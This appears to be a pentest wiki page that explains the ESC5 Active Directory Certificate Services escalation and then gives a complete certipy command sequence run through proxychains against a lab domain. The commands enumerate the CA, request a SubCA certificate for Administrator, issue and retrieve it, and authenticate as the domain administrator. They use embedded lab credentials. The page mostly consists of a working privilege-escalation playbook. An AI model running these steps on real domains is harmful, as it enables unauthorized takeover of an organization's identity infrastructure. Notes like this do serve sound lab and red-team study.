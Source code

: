 ```yaml
---
description: Domain escalation that abuses access controls
---
```


# ESC5

ESC5 is a domain escalation technique that exploits weak access controls on Active Directory objects indirectly linked to ADCS. These objects can enable privilege escalation through ADCS.

{% hint style="info" %}
The entire Public Key Infrastructure or PKI can be compromised if an account has elevated privileges over objects tied to ADCS configuration or the ADCS server is compromised.
{% endhint %}

### <mark style="color:yellow;">ESC5 Abuse from Linux</mark>

Enumerate ADCS servier using `-ns` for DNS server IP and `-dns-tcp` so it uses TCP.

```sh
proxychains4 -q certipy find -u cken -p Superman001 -dc-ip 172.16.19.3 -stdout -ns 172.16.19.3 -dns-tcp
```

Replicate ESC7 attack using SubCA temmplate to generate a certificate as administrator. Specify `-target-ip <ADCS Server>` option since the ADCS server and the domain controller are different servers.

```sh
proxychains4 -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -target-ip 172.16.19.5 -ca lab-WS01-CA -template SubCA -upn Administrator
```

Approve the request using the right ID from previous step.

```sh
proxychains4 -q certipy ca -u cken -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -target-ip 172.16.19.5 -ca lab-WS01-CA -issue-request 10
```

Finally retrieve the certificate and authenticate

```sh
# Retrieve
proxychains4 -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -target-ip 172.16.19.5 -ca lab-WS01-CA -retrieve 10

# Authenticate
proxychains4 -q certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp
```
